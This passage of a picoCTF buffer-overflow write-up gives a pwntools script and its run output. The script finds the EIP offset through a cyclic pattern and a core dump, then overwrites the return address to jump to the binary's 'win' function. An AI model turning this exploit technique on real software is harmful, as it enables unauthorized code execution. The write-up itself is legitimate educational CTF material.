 And now we need to do some slight modifications to our original exploits and we should be good to go. 
I made the `HOST, PORT` arguments optional so that we can also play with this on our host machine.

```python
from pwn import *
import argparse

parser = argparse.ArgumentParser()

parser.add_argument(
	"--host", 
	type=str, 
	default="saturn.picoctf.net", 
	help="Remote host"
)

parser.add_argument(
	"--port",
	type=int,
	help="Port to use when connecting to remote host."
)

args = parser.parse_args()

elf = context.binary = ELF('./vuln')

p = process(elf.path)
p.sendline(cyclic(100))
p.wait()

core = Coredump('./core')

payload = flat({
	cyclic_find(core.eip): elf.symbols.win
})

if args.host and args.port:
	p = remote(args.host, args.port)
else:
	p = process(elf.path)

p.sendline(payload) # send the payload
p.interactive()
```

Now let's run it.

```bash
$ python exploit.py --host saturn.picoctf.net --port [PORT]
[*] '/home/skeleton/ctf/pico/binary_exploitation/buffer_overflow_1/vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    **********NX**********:       **********NX********** disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
[+] Starting local process '/home/skeleton/ctf/pico/binary_exploitation/buffer_overflow_1/vuln': pid 12010
[*] Process '/home/skeleton/ctf/pico/binary_exploitation/buffer_overflow_1/vuln' stopped with exit code -11 (SIGSEGV) (pid 12010)
[+] Parsing corefile...: Done
[*] '/home/skeleton/ctf/pico/binary_exploitation/buffer_overflow_1/core'
    Arch:      i386-32-little
    EIP:       0x6161616c
```